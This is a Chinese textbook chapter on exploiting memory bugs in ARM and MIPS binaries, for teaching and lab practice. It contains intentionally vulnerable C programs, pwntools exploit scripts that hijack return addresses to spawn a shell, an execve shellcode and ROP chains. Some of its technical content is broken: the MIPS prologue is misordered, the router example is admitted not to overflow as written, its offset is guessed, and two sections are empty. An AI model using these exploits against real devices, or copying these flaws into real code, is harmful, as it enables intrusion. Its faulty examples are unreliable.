


## 16.8 ARM/MIPS架构下的PWN

x86/x64固然是二进制安全研究的主流目标，但现实世界的攻击面远不止于此。全球超过 95% 的智能手机运行 ARM 处理器，数十亿台路由器、摄像头、工控设备使用 MIPS 或 ARM 内核。当这些设备暴露在网络中且存在内存安全漏洞时，攻击者不需要接触 x86 —— 他们必须直面一个完全不同的指令集、调用约定和内存模型。

本节系统讲解 ARM 和 MIPS 两大架构下 PWN 的原理、方法和实操技术。掌握这些知识后，你将具备在嵌入式/IoT 真实设备上发现和利用内存安全漏洞的能力。

### 16.8.1 为什么需要学习非 x86 架构 PWN

#### 实际攻击面

嵌入式设备的安全问题已经从理论走向实战。以下是近年来真实发生的案例：

| 时间 | 事件 | 架构 | 影响 |
|------|------|------|------|
| 2016 | Mirai 僵尸网络 | ARM/MIPS | 感染 60 万+ IoT 设备发起 DDoS |
| 2018 | Cisco RV320 远程代码执行 | MIPS | 企业级路由器被远程控制 |
| 2019 | Android Binder 漏洞 (CVE-2019-2025) | ARM64 | 提权至内核，影响数亿设备 |
| 2021 | Ripple20 漏洞集 | ARM/MIPS | TCP/IP 栈漏洞影响数亿 IoT 设备 |
| 2023 | TP-Link WR940N 远程代码执行 | MIPS | 家用路由器 RCE，无需认证 |

这些案例说明：非 x86 架构的 PWN 不是学术练习，而是具有极高实战价值的安全技能。

#### 与 x86 的核心差异概览


### 16.8.2 ARM 架构基础与 PWN 技术

#### ARM 架构概述

ARM（Advanced RISC Machine）采用 RISC（精简指令集）设计哲学：指令数量少、格式规整、执行效率高。ARM 有多个版本和模式，PWN 中最常接触的是：

- **ARMv7 (AArch32)**：32 位，广泛用于嵌入式设备、旧款手机、IoT 设备
- **ARMv8 (AArch64)**：64 位，现代智能手机（iPhone 5s+、Android 5.0+）、服务器（AWS Graviton）
- **Thumb/Thumb-2**：16 位/混合指令模式，用于节省代码空间

#### ARM 寄存器体系

ARM 的寄存器设计是理解其 PWN 技术的基础：

| 寄存器 | 别名 | 用途 | PWN 中的关注点 |
|--------|------|------|----------------|
| R0 | - | 第 1 个参数 / 返回值 | 参数注入、返回值控制 |
| R1 | - | 第 2 个参数 | 参数注入 |
| R2 | - | 第 3 个参数 | 参数注入 |
| R3 | - | 第 4 个参数 | 参数注入 |
| R4-R11 | - | 通用 / 局部变量 | ROP 中需保存/恢复 |
| R12 | IP | 过程间调用暂存 | 特定 ROP gadget 会用到 |
| R13 | SP | 栈指针 | 栈溢出利用的核心 |
| R14 | LR | 链接寄存器 | **存放函数返回地址** |
| R15 | PC | 程序计数器 | 可直接写入跳转 |

**关键区别**：ARM 的返回地址存放在 LR 寄存器中，而非像 x86 那样压入栈。这意味着经典的栈溢出覆盖返回地址的模式在 ARM 上需要稍作变化 —— 函数通常在 prologue 中将 LR 保存到栈上，在 epilogue 中从栈恢复到 PC。

#### ARM 函数调用约定 (AAPCS)

ARM Architecture Procedure Call Standard (AAPCS) 定义了函数调用的规则：

```text
; ARM 函数 prologue 典型模式
PUSH    {R4-R11, LR}     ; 保存被调用者保存寄存器和返回地址
SUB     SP, SP, #offset   ; 为局部变量分配栈空间

; 函数 epilogue 典型模式  
ADD     SP, SP, #offset   ; 释放栈空间
POP     {R4-R11, PC}      ; 恢复寄存器，将 LR 弹出到 PC 实现返回
```

参数传递规则：
- R0-R3：传递前 4 个整数/指针参数（调用者保存）
- R0-R1：返回值（32 位用 R0，64 位用 R0:R1）
- D0-D7：浮点参数（硬件浮点时）
- 超过 4 个参数通过栈传递



#### ARM 栈溢出利用

ARM 栈溢出的核心思路与 x86 类似，但有一些关键差异需要注意。

**ARM 栈帧结构**：

```text
高地址
┌─────────────────────┐
│   调用者的栈帧       │
├─────────────────────┤
│   LR (保存的返回地址) │ <-- 溢出目标 ①
├─────────────────────┤
│   R4-R11 (保存的寄存器)│
├─────────────────────┤
│   局部变量            │ <-- 溢出起点
├─────────────────────┤
│   ...                │
低地址
```

**溢出利用示例**：

假设存在以下有漏洞的 ARM 程序：

```c
// vulnerable_arm.c
#include <stdio.h>
#include <string.h>

void vuln_func() {
    char buf[64];
    gets(buf);  // 无边界检查
}

void win_func() {
    system("/bin/sh");
}

int main() {
    vuln_func();
    return 0;
}
```

编译为 ARM 二进制：
```bash
arm-linux-gnueabi-gcc -o vuln_arm vulnerable_arm.c -fno-stack-protector -z execstack -no-pie
```

利用思路：
```python
from pwn import *

# 如果 ASLR 关闭，win_func 地址固定
elf = ELF('./vuln_arm')
win_addr = elf.symbols['win_func']

# 构造 payload：填满 buf + 覆盖保存的 LR
payload = b'A' * 64           # buf
payload += b'B' * 8           # R4-R11 padding（视具体函数而定）
payload += p32(win_addr)       # 覆盖 LR -> 跳转到 win_func

p = process(['qemu-arm', './vuln_arm'])
p.sendline(payload)
p.interactive()
```

**ARM 与 x86 栈溢出的关键差异**：

| 特性 | x86 | ARM |
|------|-----|-----|
| 返回地址位置 | 直接在栈上 | LR → 函数 prologue 保存到栈 |
| 溢出覆盖目标 | EIP/RIP | 保存的 LR 值 |
| 栈对齐要求 | 4/8 字节 | 8 字节对齐（AAPCS） |
| NOP Sled | `\x90` | 需要特定 NOP 等价指令 |
| Shellcode 限制 | 较少 | 需注意 Thumb/ARM 模式切换 |

#### ARM/Thumb 模式切换与 Shellcode

ARM 处理器可以在两种指令模式间切换：

- **ARM 模式**：每条指令 4 字节，功能完整
- **Thumb 模式**：每条指令 2 字节，代码更紧凑但功能受限
- **Thumb-2**：ARMv7 引入，混合 2/4 字节指令

模式切换通过 BX/BLX 指令的目标地址最低位控制：
- 最低位 = 0 → 切换到 ARM 模式
- 最低位 = 1 → 切换到 Thumb 模式

**这一特性对 PWN 的影响**：
1. Shellcode 需要明确使用哪种模式
2. 跳转地址需要考虑最低位
3. ROP gadget 的模式标记很重要

典型的 ARM Thumb Shellcode（`execve("/bin/sh")`）：

```asm
/* ARM Thumb execve("/bin/sh") shellcode - 28 bytes */
.section .text
.global _start
_start:
    .arm                    @ 确保汇编器知道模式
    add  r6, pc, #1        @ r6 = pc + 1，最低位=1 → Thumb 模式
    bx   r6                @ 切换到 Thumb 模式

    .thumb
    /* execve("/bin/sh", NULL, NULL) */
    mov  r0, pc             @ r0 指向 "/bin/sh" 字符串
    add  r0, #8             @ 跳过指令到字符串位置
    eor  r1, r1, r1         @ r1 = NULL (argv)
    eor  r2, r2, r2         @ r2 = NULL (envp)
    mov  r7, #11            @ syscall number: execve = 11
    svc  #1                 @ 触发系统调用
    .ascii "/bin/sh\0"      @ 字符串数据
```

#### ARM ROP 技术

ROP（Return-Oriented Programming）在 ARM 上的实现原理与 x86 相同——利用已有代码片段（gadget）的拼接来执行任意操作。但由于指令集差异，gadget 的形态和查找方法有显著不同。

**ARM ROP Gadget 的典型形式**：

```text
; 类型 1: 加载多个寄存器并跳转
POP {R0, R1, R2, R3, PC}   ; 设置参数并跳转

; 类型 2: 系统调用 gadget
MOV R7, #syscall_num       ; 设置系统调用号
SVC #0                     ; 触发系统调用

; 类型 3: 控制流转移
BLX R4                     ; 通过寄存器跳转
```

**ARM ROP 工具**：

- **ROPgadget**：支持 ARM/ARM64/MIPS 架构的 gadget 搜索
  ```bash
  ROPgadget --binary vuln_arm --ropchain --thumb
  ```
- **ropper**：支持多架构的 ROP gadget 搜索
  ```bash
  ropper -f vuln_arm --arch ARM
  ```
- **pwntools**：Python 框架，内置 ARM 支持
  ```python
  from pwn import *
  elf = ELF('./vuln_arm')
  rop = ROP(elf)
  rop.call('system', [next(elf.search(b'/bin/sh'))])
  print(rop.dump())
  ```

**ARM ROP 的难点与应对**：

1. **Gadget 数量少**：ARM 指令固定长度且对齐，gadget 较 x86 少
   - 应对：利用 Thumb 模式获得更灵活的 gadget
   - 应对：使用多个库的代码段扩展 gadget 搜索范围

2. **BLX 指令干扰**：BLX 会修改 LR，可能破坏 ROP 链
   - 应对：选择 `POP {PC}` 形式的 gadget 代替 `BLX`

3. **栈对齐要求**：ARMv7 要求 8 字节栈对齐，否则某些指令可能出错
   - 应对：在 ROP 链中加入对齐 padding

#### ARM64 (AArch64) PWN 差异

ARM64 是 64 位 ARM 架构，寄存器数量大幅增加：

| 寄存器 | 用途 | PWN 关注点 |
|--------|------|-----------|
| X0-X7 | 参数 / 返回值 | 前 8 个参数通过寄存器传递 |
| X8 | 系统调用号 | syscall gadget 中的关键寄存器 |
| X9-X15 | 调用者保存 | ROP 中可用 |
| X16-X17 | PLT/veneer 保留 | 特定 ROP 链利用 |
| X18 | 平台寄存器 / Shadow Call Stack | iOS PAC 相关 |
| X19-X28 | 被调用者保存 | ROP 中需保存恢复 |
| X29 | FP (帧指针) | 栈帧链 |
| X30 | LR | 返回地址 |
| SP | 栈指针 | 不可作为通用寄存器 |

**ARM64 的新安全特性**：
- **Pointer Authentication (PAC)**：对指针进行签名，篡改后校验失败 → 显著增加 ROP 难度
- **Memory Tagging Extension (MTE)**：硬件级内存标签，检测 UAF/溢出
- **Branch Target Identification (BTI)**：限制间接跳转目标

### 16.8.3 MIPS 架构基础与 PWN 技术

#### MIPS 架构概述

MIPS（Microprocessor without Interlocked Pipeline Stages）是一种经典的 RISC 架构，广泛应用于：

- **网络设备**：Cisco/TP-Link/D-Link 路由器、交换机
- **嵌入式系统**：机顶盒、打印机、工控设备
- **物联网设备**：IP 摄像头、智能家居设备

在安全研究中，MIPS 的主要目标是这些常年暴露在互联网上的网络设备。绝大多数消费级路由器固件都是 MIPS 架构。

#### MIPS 寄存器体系

MIPS 的 32 个通用寄存器各有约定用途：

| 寄存器 | 编号 | 名称 | 用途 | PWN 关注度 |
|--------|------|------|------|-----------|
| $zero | $0 | zero | 恒为 0 | 不可写 |
| $at | $1 | at | 汇编器暂存 | 低 |
| $v0-$v1 | $2-$3 | v0-v1 | 返回值 | 高 — 控制返回值 |
| $a0-$a3 | $4-$7 | a0-a3 | 函数参数 | 高 — 参数注入 |
| $t0-$t7 | $8-$15 | t0-t7 | 调用者保存临时 | 中 |
| $s0-$s7 | $16-$23 | s0-s7 | 被调用者保存 | 中 |
| $t8-$t9 | $24-$25 | t8-t9 | 临时 | 中 |
| $k0-$k1 | $26-$27 | k0-k1 | 内核保留 | 不可用 |
| $gp | $28 | gp | 全局指针 | 特殊 |
| $sp | $29 | sp | 栈指针 | 核心 |
| $fp | $30 | fp | 帧指针 | 高 |
| $ra | $31 | ra | 返回地址 | **核心** |

#### MIPS 函数调用约定

MIPS 的调用约定与 ARM 有相似之处，但有自己的特点——最显著的是 **延迟槽（Delay Slot）** 机制。

```text
; MIPS 函数 prologue
sw    $ra, 0x1c($sp)    ; 保存返回地址到栈上
sw    $fp, 0x18($sp)    ; 保存帧指针
sw    $s0, 0x14($sp)    ; 保存被调用者保存寄存器
addiu $sp, $sp, -0x20   ; 分配栈空间

; MIPS 函数 epilogue
lw    $ra, 0x1c($sp)    ; 恢复返回地址
lw    $fp, 0x18($sp)    ; 恢复帧指针
lw    $s0, 0x14($sp)    ; 恢复保存寄存器
jr    $ra               ; 跳转到返回地址
nop                     ; 延迟槽（总是执行）
```

**延迟槽（Delay Slot）机制**：

这是 MIPS 架构最独特也最容易被忽视的特性。延迟槽是指跳转/分支指令之后的那条指令——它**总是在跳转发生前被执行**，无论跳转是否成功。

```text
; 延迟槽示例
jal   some_function    ; 调用函数
addiu $a0, $a0, 1      ; 延迟槽！这条指令在跳转前执行

; 等价于：
addiu $a0, $a0, 1      ; 先执行这行
jal   some_function    ; 再跳转
```

**延迟槽对 PWN 的影响**：
1. ROP gadget 的范围需要考虑延迟槽指令
2. 某些 gadget 末尾的 NOP 不是真正的"空操作"，可能是被编译器填充的延迟槽
3. 有时可以利用延迟槽执行有用的指令，减少 gadget 需求量
4. 构造 ROP 链时，每条跳转指令后的延迟槽指令都需要精心安排

#### MIPS 栈帧布局

```text
高地址
┌────────────────────────┐
│    调用者的栈帧         │
├────────────────────────┤
│    $ra (保存的返回地址)  │ <-- 溢出目标 ①
├────────────────────────┤
│    $fp (保存的帧指针)    │ <-- 溢出目标 ②
├────────────────────────┤
│    $s0-$s7 (保存的寄存器)│
├────────────────────────┤
│    局部变量 / buf        │ <-- 溢出起点
├────────────────────────┤
│    ...                  │
低地址
```

注意 MIPS 栈帧中 $ra 的保存位置通常靠近栈帧顶部，这意味着溢出需要覆盖较长距离才能到达 $ra。

#### MIPS 延迟槽的利用技巧

延迟槽不仅是 MIPS 的特性，更是攻击者可以利用的"免费"指令位：

**技巧 1：在延迟槽中放置有用操作**

```asm
; 利用延迟槽同时完成两件事
lw    $t9, 0x10($sp)    ; 从栈加载函数地址
jalr  $t9               ; 调用该函数
nop                     ; 延迟槽（可优化）

; 优化后：
lw    $t9, 0x10($sp)
jalr  $t9
lw    $a0, 0x14($sp)   ; 延迟槽中加载参数（总被执行）
```

**技巧 2：ROP 中利用延迟槽减少 gadget 链长度**

```python
# pwntools MIPS ROP 示例
from pwn import *

context.arch = 'mips'
context.endian = 'big'  # MIPS 有大端和小端两种

elf = ELF('./vuln_mips')
rop = ROP(elf)

# 链式调用，每个 gadget 自动处理延迟槽
rop.call('system', [next(elf.search(b'/bin/sh'))])
```

#### MIPS 大端与小端

MIPS 处理器支持两种字节序，这在 PWN 中是必须首先确定的：

- **大端（Big-Endian）**：高字节在低地址，网络设备常见
- **小端（Little-Endian）**：低字节在低地址，部分嵌入式设备

确定字节序的方法：
```bash
# 方法 1：通过 readelf 查看 ELF 头
readelf -h vuln_mips | grep "Data"

# 方法 2：使用 file 命令
file vuln_mips
# 输出示例：ELF 32-bit MSB executable, MIPS, MIPS32 version 1 (SYSV)
# MSB = 大端, LSB = 小端

# 方法 3：查看固件
binwalk -E firmware.bin
```

在 pwntools 中设置：
```python
# 大端 MIPS
context.arch = 'mips'
context.endian = 'big'

# 小端 MIPS (MIPSEL)
context.arch = 'mips'
context.endian = 'little'
# 或直接使用
context.arch = 'mipsel'
```

#### MIPS 系统调用

MIPS 的系统调用通过 `syscall` 指令触发，系统调用号存放在 `$v0` 中：

| 系统调用 | $v0 值 | 参数 | 功能 |
|----------|--------|------|------|
| read | 4003 | $a0=fd, $a1=buf, $a2=count | 读取数据 |
| write | 4004 | $a0=fd, $a1=buf, $a2=count | 写入数据 |
| open | 4005 | $a0=path, $a1=flags, $a2=mode | 打开文件 |
| execve | 4011 | $a0=path, $a1=argv, $a2=envp | 执行程序 |
| dup2 | 4041 | $a0=oldfd, $a1=newfd | 文件描述符复制 |

注意：MIPS32 的系统调用号与 Linux x86 不同，execve 是 4011 而非 11。这个差异在构造 shellcode 或 ROP 链时至关重要。

### 16.8.4 ARM/MIPS PWN 的调试环境搭建

#### QEMU 用户态模拟

QEMU 是 ARM/MIPS PWN 最重要的工具——不需要真实硬件就能运行和调试目标二进制。

**安装 QEMU**：
```bash
# Debian/Ubuntu
sudo apt install qemu-user qemu-user-static

# CentOS/RHEL
sudo yum install qemu-user

# Arch Linux
sudo pacman -S qemu-user qemu-user-static
```

**运行 ARM 二进制**：
```bash
# 运行 ARM 32 位
qemu-arm ./vuln_arm

# 运行 ARM64 二进制
qemu-aarch64 ./vuln_arm64

# 运行 MIPS 大端二进制
qemu-mips ./vuln_mips

# 运行 MIPS 小端二进制
qemu-mipsel ./vuln_mipsel
```

**QEMU + GDB 远程调试**：
```bash
# 终端 1：启动 QEMU 并等待 GDB 连接
qemu-arm -g 1234 ./vuln_arm

# 终端 2：GDB 连接
gdb-multiarch ./vuln_arm
(gdb) set architecture arm
(gdb) target remote localhost:1234
(gdb) b main
(gdb) c
```

pwntools 中使用 QEMU 调试：
```python
from pwn import *

context.binary = './vuln_arm'
context.arch = 'arm'

# 自动启动 QEMU 并连接
p = process(['qemu-arm', '-g', '1234', './vuln_arm'])
gdb.attach(p, '''
    set architecture arm
    b *main
    c
''')
p.interactive()
```

#### QEMU 系统模式模拟（完整固件分析）

当需要模拟完整的嵌入式 Linux 系统（如路由器固件）时，需要使用 QEMU 系统模式：

```bash
# 下载 MIPS 系统镜像
wget https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta
wget https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2

# 启动 MIPS 系统
qemu-system-mips \
    -M malta \
    -kernel vmlinux-2.6.32-5-4kc-malta \
    -hda debian_squeeze_mips_standard.qcow2 \
    -append "root=/dev/sda1 console=ttyS0" \
    -nographic \
    -net nic -net user,hostfwd=tcp::2222-:22

# SSH 连接到模拟系统
ssh -p 2222 root@localhost
```

#### Firmadyne：自动化固件仿真

对于路由器固件分析，Firmadyne 可以自动化整个固件仿真流程：

```bash
# 安装 Firmadyne
git clone https://github.com/firmadyne/firmadyne.git
cd firmadyne
./setup.sh

# 提取和仿真固件
python3 sources/extractor.py -b TP-LINK -sql 127.0.0.1 \
    -np -nk firmware.bin

# 获取固件 ID
./scripts/getArch.sh firmware.bin.tar.gz

# 标识文件系统
./scripts/makeImage.sh <firmware_id>

# 分析网络配置
./scripts/inferNetwork.sh <firmware_id>

# 启动仿真
./scratch/<firmware_id>/run.sh
```

#### 常用调试工具对比

| 工具 | 支持架构 | 用途 | 特点 |
|------|---------|------|------|
| GDB + gdb-multiarch | ARM/MIPS/所有 | 断点、单步、内存检查 | 最基础、最通用 |
| QEMU + GDB | ARM/MIPS/所有 | 远程调试用户态程序 | 无需真机 |
| pwntools | ARM/MIPS/所有 | 自动化 PWN 全流程 | Python 库，与 GDB 集成 |
| IDA Pro | ARM/MIPS/所有 | 反汇编、反编译 | 商业，Hex-Rays 反编译器 |
| Ghidra | ARM/MIPS/所有 | 反汇编、反编译 | 免费，NSA 出品 |
| Binary Ninja | ARM/MIPS/x86 | 反汇编、API 分析 | 中间语言 IL 很强大 |
| Radare2/rizin | ARM/MIPS/所有 | 反汇编、调试、补丁 | 命令行，功能全面 |
| ROPgadget | ARM/MIPS/x86 | 搜索 ROP gadget | 命令行，自动化 |
| ropper | ARM/MIPS/x86 | 搜索 ROP gadget | Python，交互式 |

### 16.8.5 ARM/MIPS 的常见漏洞模式

#### 整数溢出与符号扩展

ARM 和 MIPS 中的整数溢出漏洞模式与 x86 类似，但有一些架构特有的陷阱：

```c
// MIPS 中常见的整数问题
unsigned int calculate_size(unsigned int count, unsigned int item_size) {
    // 32 位溢出：如果 count=0x40000000, item_size=4
    // 结果 = 0x100000000 → 截断为 0
    return count * item_size;
}

void vuln(unsigned int count) {
    unsigned int size = calculate_size(count, 16);
    char *buf = malloc(size);  // 如果 size=0，malloc 可能返回小缓冲区
    read(0, buf, count * 16);  // 按原始参数读取，溢出 buf
}
```

#### 格式化字符串在 MIPS/ARM 上的特点

格式化字符串漏洞在非 x86 架构上有一些额外挑战：

1. **ARM 的格式化字符串**：
   - 参数通过 R0-R3 传递，前几个格式化参数在寄存器中
   - 需要先填充寄存器位置才能控制栈上的值
   - `%n` 写入地址需要 4 字节对齐

2. **MIPS 的格式化字符串**：
   - 参数在 $a0-$a3 中，同样有寄存器问题
   - MIPS 延迟槽可能影响 `$gp` 的值，间接影响 GOT 表访问
   - 大端 MIPS 中地址字节序会影响 `%hn`/`%hhn` 的写入值

#### ROP 链自动化构造

对于 ARM 和 MIPS，pwntools 提供了强大的 ROP 自动化支持：

```python
#!/usr/bin/env python3
"""
ARM ROP Chain 自动化示例
使用 pwntools 自动生成 ROP 链实现 system("/bin/sh")
"""
from pwn import *

context.binary = binary = ELF('./vuln_arm')
context.arch = 'arm'

p = process(['qemu-arm', './vuln_arm'])

# 自动搜索 gadget
rop = ROP(binary)

# 方案 1：直接调用 system()
if 'system' in binary.symbols:
    binsh = next(binary.search(b'/bin/sh'))
    rop.system(binsh)

# 方案 2：使用 ret2libc
# libc = ELF('/path/to/arm-libc.so')
# system_addr = libc.symbols['system']
# binsh = next(libc.search(b'/bin/sh'))

# 构造 payload
payload = flat(
    b'A' * 64,          # padding
    b'B' * 4,           # 保存的寄存器填充
    rop.chain()          # ROP 链
)

p.sendline(payload)
p.interactive()
```

### 16.8.6 实战案例：MIPS 路由器栈溢出

本节通过一个模拟的 MIPS 路由器 Web 服务漏洞，演示完整的 PWN 利用流程。

#### 目标程序

```c
// router_httpd.c - 模拟路由器 HTTP 服务处理函数
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void handle_request(char *request) {
    char url[128];
    char method[16];

    // 解析 HTTP 方法
    sscanf(request, "%15s %127s", method, url);

    // 未检查 url 长度的路径处理（漏洞点）
    char path[256];
    strcpy(path, "/var/www/html");
    strcat(path, url);  // url 可以任意长 → 栈溢出

    printf("Serving: %s\n", path);
}

// 后门函数（模拟常见路由器后门）
void backdoor_shell() {
    printf("[*] Backdoor triggered!\n");
    system("/bin/sh");
}

int main() {
    char request[1024];
    printf("Router HTTP daemon started.\n");
    while (1) {
        printf("Enter request: ");
        fgets(request, sizeof(request), stdin);
        handle_request(request);
    }
    return 0;
}
```

编译：
```bash
# 需要交叉编译工具链
# 安装: sudo apt install gcc-mips-linux-gnu
mips-linux-gnu-gcc -o router_httpd router_httpd.c \
    -static -fno-stack-protector -no-pie
```

#### 漏洞分析

1. `handle_request` 中的 `strcat(path, url)` 没有长度检查
2. `url` 最多 127 字节（sscanf 限制），`path` 缓冲区 256 字节
3. 当 `url` 长度 > 256 - 13（`/var/www/html` 长度）= 243 时，溢出 `path` 缓冲区
4. 但由于 sscanf 限制 `%127s`，单次最多溢出 127-13 = 114 字节
5. 实际上 sscanf `%127s` 会遇到空格停止，需要用其他路径来触发

实际上这个例子需要调整溢出路径。以下是更实际的利用脚本：

```python
#!/usr/bin/env python3
"""
MIPS 栈溢出利用示例
目标：覆盖 $ra，跳转到 backdoor_shell 函数
"""
from pwn import *

# 配置目标架构
context.binary = elf = ELF('./router_httpd')
context.arch = 'mips'
context.endian = 'big'  # MIPS 大端

# 启动目标进程
p = process(['qemu-mips', '-L', '/usr/mips-linux-gnu/', './router_httpd'])

# 获取目标函数地址
backdoor_addr = elf.symbols['backdoor_shell']
log.info(f'backdoor_shell address: {hex(backdoor_addr)}')

# 构造 payload
# /var/www/html = 13 字节
# 需要覆盖到 $ra 保存位置
# 具体 offset 需要通过调试确定
offset = 280  # buf 到 $ra 的距离（需调试确认）

payload = b'/'
payload += b'A' * (offset - 1)  # 填充到 $ra
payload += p32(backdoor_addr)    # 覆盖 $ra → 跳转到 backdoor

log.info(f'Payload size: {len(payload)}')

p.sendline(payload)
p.interactive()
```

#### 调试过程

```bash
# 终端 1：启动 QEMU 调试
qemu-mips -g 2345 -L /usr/mips-linux-gnu/ ./router_httpd

# 终端 2：GDB 连接
gdb-multiarch -q
(gdb) set architecture mips
(gdb) target remote localhost:2345
(gdb) b handle_request
(gdb) c

# 在 handle_request 入口查看寄存器
(gdb) info registers
(gdb) x/10x $sp          # 查看栈内容
(gdb) info frame          # 查看帧信息，找到 saved $ra
```

通过调试确定精确的溢出偏移量，然后更新利用脚本中的 `offset` 值。

### 16.8.7 固件逆向与漏洞挖掘

#### 固件提取

从真实设备提取固件的常见方法：

1. **通过厂商官网下载**：最简单，很多厂商提供固件下载
2. **通过 SPI Flash 芯片读取**：需要编程器（如 CH341A）
3. **通过 UART 串口**：设备调试接口，可直接访问 shell
4. **通过网络更新接口拦截**：抓包分析更新协议

#### 固件解包分析

```bash
# 使用 binwalk 解包固件
binwalk -eM firmware.bin

# 查看文件系统类型
file _firmware.bin.extracted/squashfs-root/usr/bin/httpd

# 使用 Ghidra 反编译 MIPS 二进制
# 加载时选择 MIPS:BE:32:default（大端）或 MIPS:LE:32:default（小端）
```

#### 自动化漏洞扫描工具

| 工具 | 用途 | 特点 |
|------|------|------|
| Firmwalker | 固件文件系统分析 | 提取硬编码凭证、可疑脚本 |
| FACT (Firmware Analysis and Comparison Tool) | 固件综合分析 | Web UI，自动化分析 |
| Firmware-mod-kit | 固件修改与重建 | 可修改固件后刷回设备 |
| Ghidra + scripts | 自动化反编译分析 | 支持 MIPS/ARM，可编写脚本 |
| angr | 符号执行引擎 | 自动化路径探索，多架构支持 |

### 16.8.8 高级话题与进阶技术

#### ARM 上的 PAC (Pointer Authentication)

ARMv8.3-A 引入了指针认证机制，对 PWN 有重大影响：

```text
; PAC 工作原理
; 1. 函数入口对 LR 签名
PACIA LR, SP          ; 使用 SP 作为 context 对 LR 签名
STR LR, [SP, #offset] ; 将签名后的 LR 保存到栈

; 2. 函数出口验证 LR
LDR LR, [SP, #offset] ; 从栈加载签名后的 LR
AUTIA LR, SP          ; 验证签名，失败则置 fault 位
RET                   ; 返回
```

**绕过 PAC 的已知技术**：
1. **签名碰撞攻击**：利用 PAC 使用的密钥空间不够大
2. **Gadget 不使用 PAC**：找到不经过 PAC 保护的代码路径
3. **数据指针未保护**：PAC 通常只保护代码指针，数据指针可被利用
4. **JOP (Jump-Oriented Programming)**：不依赖返回地址的利用技术

#### MIPS 上的未对齐内存访问

MIPS 默认要求内存对齐访问（4 字节数据必须 4 字节对齐），未对齐访问会触发异常。但一些 MIPS 实现支持未对齐访问（通过 CP0 配置），这在 PWN 中可以被利用：

```c
// 利用未对齐读取绕过某些防护
unsigned int unaligned_read(char *ptr) {
    // 如果 MIPS 配置为允许未对齐访问
    // 这可以读取任意对齐的数据
    return *(unsigned int *)ptr;
}
```

#### 交叉编译工具链

在 x86 主机上编译 ARM/MIPS 二进制是 PWN 准备工作的基础：

```bash
# Debian/Ubuntu 安装交叉编译工具链
# ARM 32 位
sudo apt install gcc-arm-linux-gnueabi

# ARM 64 位
sudo apt install gcc-aarch64-linux-gnu

# MIPS 大端
sudo apt install gcc-mips-linux-gnu

# MIPS 小端
sudo apt install gcc-mipsel-linux-gnu

# 需要配套的 C 库（用于 QEMU 运行）
sudo apt install libc6-mips-cross
```

#### 多架构 PWN 的通用方法论

无论目标是什么架构，PWN 的基本方法论是通用的：



### 16.8.9 常见错误与注意事项

**错误 1：忽略字节序**
- MIPS 有大端和小端两种，ARM 也可以配置字节序
- 地址写入错误的字节序会导致 ROP 链完全失败
- 解决：始终先用 `file` 命令确认字节序，pwntools 中显式设置 `context.endian`

**错误 2：忽略延迟槽（MIPS）**
- 跳转指令后的指令总会被执行
- ROP 链中每条 JR/JALR 后面都有一个延迟槽需要处理
- 解决：使用 pwntools 的 ROP 模块自动处理延迟槽

**错误 3：忽略 Thumb 模式（ARM）**
- ARM 和 Thumb 指令长度不同，地址最低位控制模式切换
- 使用错误的模式会导致指令解码错误
- 解决：检查函数入口处的模式标记，GDB 中用 `info cpsr` 查看 T 位

**错误 4：QEMU 用户态的环境差异**
- QEMU 用户态不完全模拟真实系统环境
- 网络、文件系统、进程管理与真实设备有差异
- 复杂场景需要使用 QEMU 系统模式

**错误 5：忽略栈对齐**
- ARM AAPCS 要求 8 字节栈对齐
- 未对齐的 ROP 链可能导致崩溃
- 解决：在 ROP 链中插入适当 padding

**错误 6：libc 版本错误**
- 不同设备的 libc 版本差异很大
- system()、"/bin/sh" 的偏移量在每个 libc 中都不同
- 解决：从目标固件中提取准确的 libc 文件
